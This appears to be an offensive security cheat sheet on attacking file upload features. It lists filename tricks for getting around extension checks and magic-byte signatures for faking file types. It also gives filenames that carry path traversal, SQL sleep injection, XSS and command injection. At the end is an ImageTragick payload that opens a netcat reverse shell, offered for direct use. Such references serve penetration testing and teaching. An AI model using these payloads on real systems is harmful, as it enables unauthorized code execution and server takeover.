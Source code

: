 # File Upload

## Evade file restrictions

Changing the content type header when trying to upload reverse shells can bypass simple files detection systems.

These strings are effective in evading file upload checks only if the server does not check the actual file signature but checks only the extension.

```php
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

### Magic bytes

To bypass file control insert the following bytes sequences at the beginning of the file to change its type and edit file extension accordingly.

```php
python -c "print '<signature>'" > <file>
#hex signature example: \x4D\x5A
```

| File type                       | Mnemonic            | Signature                                    |
| ------------------------------- | ------------------- | -------------------------------------------- |
| DOS executable                  | "MZ"&#xD;           | 0x4D 0x5A&#xD;                               |
| PE32 executable                 | "MZ"...."PE.."&#xD; | 0x4D 0x5A ... 0x50 0x45 0x00 0x00&#xD;       |
| Mach-O Executable (32 bit)      | "FEEDFACE"&#xD;     | 0xFE 0xED 0xFA 0xCE&#xD;                     |
| Mach-O Executable (64 bit)&#xD; | "FEEDFACF"&#xD;     | 0xFE 0xED 0xFA 0xCF&#xD;                     |
| ELF Executable&#xD;             | ".ELF"&#xD;         | 0x7F 0x45 0x4C 0x46&#xD;                     |
| Zip Archive&#xD;                | "PK.."&#xD;         | 0x50 0x4B 0x03 0x04&#xD;                     |
| Rar Archive&#xD;                | "Rar!...."&#xD;     | 0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00&#xD; |
| Ogg Container&#xD;              | "OggS"&#xD;         | 0x4F 0x67 0x67 0x53&#xD;                     |
| Matroska/EBML Container&#xD;    | N/A                 | 0x45 0x1A 0xA3 0xDF&#xD;                     |
| PNG Image&#xD;                  | ".PNG...."&#xD;     | 0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A&#xD; |
| BMP Image&#xD;                  | "BM"&#xD;           | 0x42 0x4D&#xD;                               |
| GIF Image&#xD;                  | "GIF87a"&#xD;       | 0x47 0x49 0x46 0x38 0x37 0x61&#xD;           |
| GIF Image&#xD;                  | "GIF89a"&#xD;       | 0x47 0x49 0x46 0x38 0x39 0x61                |

## Malicious filenames

```
../../../tmp/lol.png 
sleep(10)-- -.jpg 
<svg onload=alert(document.comain)> 
; sleep 10;
```

## ImageTrick vulnerability

Save this code snippet in a text file and upload it to receive a reverse shell

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|nc -e /bin/sh <IP> "<PORT>)'
pop graphic-context
```

